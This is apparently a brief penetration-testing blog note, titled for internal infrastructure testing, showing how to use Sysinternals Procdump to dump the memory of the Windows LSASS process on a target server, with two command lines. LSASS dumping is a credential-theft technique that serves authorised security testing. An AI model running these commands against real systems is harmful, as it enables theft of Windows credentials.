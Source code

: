 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Procdump"
date:   2019-07-07 15:34:00 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
  - Active Directory Hacking
tags:
  - Procdump
  - Sysinternals
---
```

Download Procdump:
https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx

- Upload the “Procdump” tool to the in-scope server
- procdump.exe -accepteula -ma lsass.exe lsass.dmp
- procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
